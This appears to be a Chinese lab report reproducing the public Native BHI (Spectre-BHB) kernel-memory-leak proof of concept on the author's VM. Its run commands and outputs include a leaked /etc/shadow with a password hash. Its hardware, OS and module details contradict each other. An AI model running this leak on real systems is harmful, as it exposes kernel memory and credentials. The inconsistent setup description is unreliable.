

# BHI 实验报告

# 本项目具体说明
Inspectre（原生BHI，Branch History Injection，分支历史注入，CVE-2022-0001/CVE-2022-0002）是面向Intel处理器原生分支历史缓冲区BHB的微架构侧信道攻击工具套件，揭示硬件BHB无法在特权切换时完整冲刷的隔离缺陷，可绕过IBRS/eIBRS等Spectre v2硬件缓解机制。本项目完整实现Inspectre原生BHI POC复现流程，依托分支历史缓冲区跨特权残留污染机制，分别完成**inter_mode跨特权（用户态→内核）**、**intra_mode同特权（用户态→用户态）**两组对照实验，验证Intel多代CPU分支历史域隔离失效问题。实验硬件采用Intel 11代Tiger Lake（i5-11300H）平台，整套复现环境基于Ubuntu 24.04虚拟机部署。

## 涉及资源
- **Branch History Buffer (BHB，分支历史缓冲区)**
  - **位置**: CPU流水线前端分支预测单元内部
  - **功能**: 持续记录近期执行的分支序列上下文，为间接分支预测提供历史参考；IBRS/eIBRS设计初衷是切换特权级时清空BHB，阻断跨域分支历史复用。
  - **利用**: Intel处理器执行`syscall`用户态切内核态时，BHB无法完全清空残留分支记录；攻击者预先在用户态填充恶意分支序列污染BHB，内核执行间接分支时会复用污染历史，诱导预测器跳转到可控投机gadget，实现原生BHI历史注入。
- **Kernel Module (ap.ko)**
  - **位置**: 实验项目uarch-research-fw/kmod_ap/目录下编译生成的内核模块
  - **功能**: 提供可控内核间接分支调用接口，临时关闭SMEP/SMAP内存访问防护，支持在内核侧复现间接分支执行逻辑，同时开放sys_call_table内核内存读取通道。
  - **利用**: Inspectre原生BHI实验核心支撑组件，用于构造内核分支触发点、暴露内核内存供侧信道泄露，支撑inter_mode跨特权泄露实验。
- **Performance Counter (性能计数器PMU)**
  - **位置**: CPU内部性能监控单元
  - **功能**: 统计分支预测延迟、投机执行指令数量、缓存驱逐耗时、BHB条目命中次数等底层微架构指标。
  - **利用**: 实验通过读取硬件性能计数器量化BHB污染成功率、syscall切换延迟、分支重载耗时，将不可观测的BHB内部状态转化为可量化实验数据，区分inter/intra两组模式的攻击效率差异。
- **Eviction Set + L3 Cache Side Channel（驱逐集+L3缓存侧信道）**
  - **位置**: CPU三级共享缓存
  - **功能**: 驱逐集用于批量冲刷BHB、缓存资源以构建基线对照；缓存依靠访问时间差（Hit低延迟、Miss高延迟）构建隐蔽数据传输通道。
  - **利用**: 1. 构造大/小驱逐集对比syscall执行耗时，验证BHB资源竞争；2. 投机路径访问标记缓存行，通过缓存时序差异判断BHI是否成功触发；3. 逐字节读取内核`sys_call_table`内存，输出稳定泄露带宽。
- **Inspectre POC脚本（run.sh）**
  - **位置**: `bhi-spectre-bhb/pocs/inter_mode`、`bhi-spectre-bhb/pocs/intra_mode`
  - **功能**: 区分两种实验模式：`inter_mode`用户态污染BHB后切入内核完成跨特权泄露；`intra_mode`全程用户态同特权域BHI泄露，自动遍历匹配可碰撞分支历史序列、采集时序指标、转储泄露内核内存。
  - **利用**: 整套原生BHI自动化复现载体，自动完成BHB污染、特权切换、时序采集、碰撞历史检索、内存读取全流程，输出实验统计日志与内存dump结果。

## 攻击原理


### Inspectre原生BHI触发核心原理（区分双实验模式）
1.  **BHB污染填充**
    程序在用户态循环执行自定义间接分支序列，填满硬件BHB缓冲区，写入攻击者可控的恶意分支上下文；通过驱逐集基线测试确认缓冲区可被完整占用。
2.  **特权上下文切换**
    - inter_mode（跨特权）：污染完成后立即调用`syscall`完成用户态至内核态切换，硬件IBRS/eIBRS无法彻底清空BHB，恶意历史完整残留；
    - intra_mode（同特权）：全程不发生特权切换，仅在用户态内切换分支上下文，BHB污染历史持续复用。
3.  **原生BHI分支历史注入**
    内核/用户态执行目标间接分支指令时，分支预测器读取残留的污染BHB历史，错误匹配攻击者预设投机gadget，绕过硬件特权隔离机制触发投机执行。其中intra模式因硬件哈希淘汰策略限制，匹配有效碰撞历史所需尝试次数远高于inter跨特权模式。
4.  **L3缓存侧信道泄露检测**
    投机执行路径主动访问预设标记缓存行，依靠L3缓存访问时间差判断投机是否发生；结合大/小驱逐集的syscall、分支重载延迟基线，区分正常执行与BHI投机执行的时序差异，同时逐字节读取内核sys_call_table内存，输出泄露带宽。
5.  **双模式对照量化实验**
    自动化脚本循环执行污染-切换-检测流程，通过CPU性能计数器采集关键指标：BHB碰撞所需尝试次数、syscall有无驱逐集的耗时均值极值、分支重载延迟、内存读取带宽；对比inter跨特权、intra同特权两组实验数据，量化不同特权场景下原生BHI漏洞的利用难度、触发成功率与数据泄露效率，最终验证Inspectre工具对BHI漏洞的稳定复现能力。

## 项目核心代码文件

- **`inspectre/experiments/native-bhi`**:内含run.sh和Readme.md,可以根据指导直接运行poc代码

## 运行环境

- **软件环境**:
  - **语言**: C, Python, Bash, Make
  - **系统**: VMware Virtual Platform Ubuntu 22.04（实验核心运行环境）
  - **依赖工具**: gcc, make, linux-headers-$(uname -r), sysctl, taskset, insmod

- **硬件版本**:
  - **CPU**: 10th Gen Intel(R) Core(TM) i7-10700H
  - **架构**: x86_64
  - **内核**：6.6.0-rc4


## 执行步骤

### 配环境步骤
1.  **配置 Guest 系统 GRUB**:
    ```bash
    GRUB_CMDLINE_LINUX_DEFAULT="quiet splash"
    sudo update-grub && sudo reboot
    ```

### 运行步骤

1. Creating the test setup

Install dependencies

``` bash
git clone https://github.com/vusec/inspectre-gadget.git
cd experiments/native-bhi
cd ../poc-common
./install_dependencies.sh
```

Build and install the kernel:

``` bash
cd ../native-bhi/kernel
./build_kernel.sh
```

Reboot into new kernel. Note: you have to disable secure boot.

2. Testing the PoC

#### First test the PoC without finding the huge-page to verify the PoC is working: 

``` bash
cd src
sudo ./run.sh -p
```

#### Test the leakage rate:

``` bash
cd src
sudo ./run.sh test_rate
```

#### Test and time the shadow leak:

1. 查看真正的影子文件（密码哈希文件）
``` bash
sudo head -n 1 /etc/shadow
```
``` text
root:!:20282:0:99999:7:::
```

2. 开始泄露
``` bash
cd src
time sudo ./run.sh leak_shadow -s '!'
```


## 运行结果

#### First test the PoC without finding the huge-page to verify the PoC is working: 

``` text
mwx@intel10700:~/CVE/inspectre-gadget/experiments/native-bhi/src
(base) mwx@intel10700:~/CVE/inspectre-gadget/experiments/native-bhi/src$ cd src
(base) mwx@intel10700:~/CVE/inspectre-gadget/experiments/native-bhi/src$ sudo ./run.sh -p
[sudo] mwx 的密码：
performance
gcc -c snippet.S -o snippet.o
gcc -o main main.c flush_and_reload.c colliding_bhb.c ../../poc-common/kaslr_prefetch/kaslr_prefetch.c ../../poc-common/l2_eviction/evict_sys_table_l2.c snippet.o -g -O3 -Wno-unused-function -lm -DINTEL_10_GEN -DLINUX_v6_6_RC4_UBUNTU_
sys_call_table: 0260
Testing the leakage rate
Seed: 1782713422
----------------------------------------------------------------------
1) Finding eviction set for syscall table
----------------------------------------------------------------------
Using syscall table offset: 0x260, cacheline: 0x1010
Victim Syscall timings:
  - NORMAL               avg: 176.82  min: 143  max: 3893
  - MIS-TRAINED          avg: 173.78  min: 149  max: 41547
  - L2 DATA EVICTION     avg: 198.55  min: 154  max: 92775
  - MIS-TRAINED + L2 DATA EVICTION  avg: 230.91  min: 179  max: 93012
[+] Step took: 0 sec
----------------------------------------------------------------------
2) Find physical map start address
----------------------------------------------------------------------
Timing overhead: 17 Threshold: 8
> 0xffff888000000000   20   3
Direct Physical Map start: 0xffff888000000000
[+] Step took: 0 sec
User huge page addr: 0x7fd99d200000 Kernel huge page addr: 0xffff888195c00000
----------------------------------------------------------------------
4) Find a colliding history for the victim -> target
----------------------------------------------------------------------
>> Found collision in 6154 tries (7/10 hits)
Verification: 8973/10000 hits
[+] Step took: 0 sec
Leakage rates -> SIMPLE 87652/100000 hits 87.65% | Byte: 0xfe 75395/100000 hits 75.39%
----------------------------------------------------------------------
5) Testing the leakage rate with 32 kB random values
----------------------------------------------------------------------
[..................................................]
32 kB took 6.7 seconds (4872.7 Byte/sec)
Fault rate: 0.000%
[+] Step took: 7 sec
```

#### Test the leakage rate:

``` text
mwx@intel10700:~/CVE/inspectre-gadget/experiments/native-bhi/src
5) Testing the leakage rate with 32 kB random values
[..................................................]
32 kB took 6.7 seconds (4872.7 Byte/sec)
Fault rate: 0.000%
[+] Step took: 7 sec
(base) mwx@intel10700:~/CVE/inspectre-gadget/experiments/native-bhi/src$ sudo ./run.sh test_rate
performance
gcc -c snippet.S -o snippet.o
gcc -o main main.c flush_and_reload.c colliding_bhb.c ../../poc-common/kaslr_prefetch/kaslr_prefetch.c ../../poc-common/l2_eviction/evict_sys_table_l2.c snippet.o -g -O3 -Wno-unused-function -lm -DINTEL_10_GEN -DLINUX_v6_6_RC4_UBUNTU
sys_call_table: 0260
Testing the leakage rate
Seed: 1782713449
----------------------------------------------------------------------
1) Finding eviction set for syscall table
----------------------------------------------------------------------
Using syscall table offset: 0x260, cacheline: 0x1010
Victim Syscall timings:
  - NORMAL               avg: 162.34  min: 143  max: 319
  - MIS-TRAINED          avg: 166.75  min: 152  max: 39894
  - L2 DATA EVICTION     avg: 200.50  min: 156  max: 40965
  - MIS-TRAINED + L2 DATA EVICTION  avg: 206.22  min: 178  max: 39625
[+] Step took: 0sec
----------------------------------------------------------------------
2) Find physical map start address
----------------------------------------------------------------------
Timing overhead: 17 Threshold: 8
> 0xffff888000000000   20   3
Direct Physical Map start: 0xffff888000000000
[+] Step took: 0 sec
----------------------------------------------------------------------
3) Finding huge page kernel address
----------------------------------------------------------------------
Testing Kernel Huge Page: 0xffff888198000000 (phys_map start + 6GB)
>> Found huge page in 34 collision tries.
User huge page addr: 0x7fa492c00000 Kernel huge page addr: 0xffff888198c00000
[+] Step took: 25 sec
----------------------------------------------------------------------
4) Find a colliding history for the victim -> target
----------------------------------------------------------------------
>> Found collision in 6462 tries (10/10 hits)
Verification: 8520/10000 hits
[+] Step took: 0 sec
Leakage rates -> SIMPLE 87781/100000 hits 87.78% | Byte: 0xfe 64706/100000 hits 64.71%
----------------------------------------------------------------------
5) Testing the leakage rate with 32 kB random values
----------------------------------------------------------------------
[..................................................]
32 kB took 7.0 seconds (4700.6 Byte/sec)
Fault rate: 0.000%
[+] Step took: 7 sec
```

#### Test and time the shadow leak:

``` text
mwx@intel10700:~/CVE/inspectre-gadget/experiments/native-bhi/src
(base) mwx@intel10700:~/CVE/inspectre-gadget/experiments/native-bhi/src$ time sudo ./run.sh leak_shadow -s '!'
performance
gcc -c snippet.S -o snippet.o
gcc -o main main.c flush_and_reload.c colliding_bhb.c ../../poc-common/kaslr_prefetch/kaslr_prefetch.c ../../poc-common/l2_eviction/evict_sys_table_l2.c snippet.o -g -O3 -Wno-unused-function -lm -DINTEL_10_GEN -DLINUX_v6_6_RC4_UBUNTU
sys_call_table: 0260
Leaking the shadow file
root L 07/13/2025 0 99999 7 -1
Seed: 1782719904
----------------------------------------------------------------------
1) Finding eviction set for syscall table
----------------------------------------------------------------------
Using syscall table offset: 0x260, cacheline: 0x1010
Victim Syscall timings:
  - NORMAL               avg: 167.10  min: 143  max: 41789
  - MIS-TRAINED          avg: 164.30  min: 153  max: 5559
  - L2 DATA EVICTION     avg: 204.28  min: 156  max: 321
  - MIS-TRAINED + L2 DATA EVICTION  avg: 200.92  min: 181  max: 52958
[+] Step took: 0sec
----------------------------------------------------------------------
2) Find physical map start address
----------------------------------------------------------------------
Timing overhead: 17 Threshold: 8
> 0xffff888000000000   20   3
Direct Physical Map start: 0xffff888000000000
[+] Step took: 0 sec
----------------------------------------------------------------------
3) Finding huge page kernel address
----------------------------------------------------------------------
Testing Kernel Huge Page: 0xffff8881a1000000 (phys_map start + 6GB)
>> Found huge page in 32 collision tries.
User huge page addr: 0x7f3aade00000 Kernel huge page addr: 0xffff8881a1000000
[+] Step took: 26 sec
----------------------------------------------------------------------
4) Find a colliding history for the victim -> target
----------------------------------------------------------------------
Tries: 90000
>> Found collision in 96498 tries (6/10 hits)
Verification: 8972/10000 hits
[+] Step took: 1 sec
Leakage rates -> SIMPLE 87097/100000 hits 87.10% | Byte: 0xfe 73924/100000 hits 73.92%
----------------------------------------------------------------------
5) Leaking shadow file
----------------------------------------------------------------------
Finding prefix 0x746f6f72
>> Found 'root: ' (0x00) at address, skipping...: 0xffff8881a11ff000
>> Found 'root:x' (0x78) at address, skipping...: 0xffff8881cb330000
Testing address: 0xffff8881e4400000 [................................]
Found prefix 0x3a746f6f72 (root:) at address 0xffff8881e46dc000
Shadow content:
====================================================================
root:!:20282:0:99999:7:::
daemon:*:19432:0:99999:7:::
bin:*:19432:0:99999:7:::
sys:*:19432:0:99999:7:::
sync:*:19432:0:99999:7:::
games:*:19432:0:99999:7:::
man:*:19432:0:99999:7:::
lp:*:19432:0:99999:7:::
mail:*:19432:0:99999:7:::
news:*:19432:0:99999:7:::
uucp:*:19432:0:99999:7:::
proxy:*:19432:0:99999:7:::
www-data:*:19432:0:99999:7:::
backup:*:19432:0:99999:7:::
list:*:19432:0:99999:7:::
irc:*:19432:0:99999:7:::
gnats:*:19432:0:99999:7:::
nobody:*:19432:0:99999:7:::
systemd-network:*:19432:0:99999:7:::
systemd-resolve:*:19432:0:99999:7:::
systemd-timesync:*:19432:0:99999:7:::
messagebus:*:19432:0:99999:7:::
syslog:*:19432:0:99999:7:::
_apt:*:19432:0:99999:7:::
tss:*:19432:0:99999:7:::
uuidd:*:19432:0:99999:7:::
tcpdump:*:19432:0:99999:7:::
avahi-autoipd:*:19432:0:99999:7:::
usbmux:*:19432:0:99999:7:::
rtkit:*:19432:0:99999:7:::
dnsmasq:*:19432:0:99999:7:::
cups-pk-helper:*:19432:0:99999:7:::
speech-dispatcher:*:19432:0:99999:7:::
avahi:*:19432:0:99999:7:::
kernops:*:19432:0:99999:7:::
saned:*:19432:0:99999:7:::
nm-openvpn:*:19432:0:99999:7:::
hplip:*:19432:0:99999:7:::
whoopsie:*:19432:0:99999:7:::
colord:*:19432:0:99999:7:::
fwupd-refresh:*:19432:0:99999:7:::
geoclue:*:19432:0:99999:7:::
pulse:*:19432:0:99999:7:::
gnome-initial-setup:*:19432:0:99999:7:::
gdm:*:19432:0:99999:7:::
sssd:*:19432:0:99999:7:::
mwx:$5$xeBkb6X7XyaGLcz3S095YTzy.fHVSkpkPJecW337BB9gz55CiMW0h2eFVBB9mUc7CU.7/0RRYwO9WZ02Nrh0vaOMVt3zXPT643hQEf.:20282:0:99999:7:::
systemd-coredump:!:20282::::::
sshd:*:20282::::::
[+] Step took: 15 sec

real    0m42.860s
user    0m34.600s
sys     0m8.265s
```